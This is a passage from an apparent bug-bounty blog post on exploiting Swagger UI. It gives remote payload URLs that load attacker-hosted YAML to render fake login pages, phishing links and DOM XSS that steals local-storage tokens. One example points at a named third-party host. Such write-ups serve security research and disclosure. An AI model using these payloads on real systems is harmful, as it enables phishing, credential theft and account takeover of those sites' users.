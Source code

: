 ![None](https://miro.medium.com/v2/resize:fit:700/1*6HNMr1AfQ3mM40I6nH2szg.png)

				Fake login page for Credential Harvesting

```bash
lab.ndl.go.jp/dl/swagger-ui.html?url=https://raw.githubusercontent.com/Rivek619/R-Payloads-101/refs/heads/main/SwaggerUI/ylogin.yaml
```

![None](https://miro.medium.com/v2/resize:fit:700/1*riLUWqTQH1lOtAnHxV0mZw.png)

				Hyperlink Injection + Phishing

Now if you did not see anything still trying these, your luck is very thin, but there is a small hope let me show you.

**Resource Injection in Api field and explore button**

![None](https://miro.medium.com/v2/resize:fit:700/1*0pPRHXxYCFSA7vgrZfgHjQ.png)

	Notice the input field and explore button, this is your final hope

- If your target's Swagger UI has an input field, try to **directly enter** just the **payload** and **click explore button.**

```
Fake login page: https://raw.githubusercontent.com/Rivek619/R-Payloads-101/refs/heads/main/SwaggerUI/rlogin1.yaml 

Phishing page: https://raw.githubusercontent.com/Rivek619/R-Payloads-101/refs/heads/main/SwaggerUI/ylogin.yaml
```

  
![None](https://miro.medium.com/v2/resize:fit:700/1*riLUWqTQH1lOtAnHxV0mZw.png)

		It might still be able to load the API File

However, this is a low severity bug which usually goes **as informative or P5.**


**=> To my lucky friends that had their pop up on their first try let's start with DOM XSS to Account Takeover**

**2. DOM XSS to Account Takeover:**

This one is a bit theoretical and a possible practical one, we can just simply show a possibility of **Account Takeover** or if you're in for it even Takeover an account.

- Similar to the above techniques adding the payload in the url simply just add this payload

```
https://raw.githubusercontent.com/Rivek619/R-Payloads-101/refs/heads/main/SwaggerUI/rtest6.yaml
```

This fetches cookies from the local storage, the name of the local storage might differ so showing an impact just for the sake of it, also does the trick.

![None](https://miro.medium.com/v2/resize:fit:700/1*VCEM6D3x9YIlmhJWzg0v-Q.png)

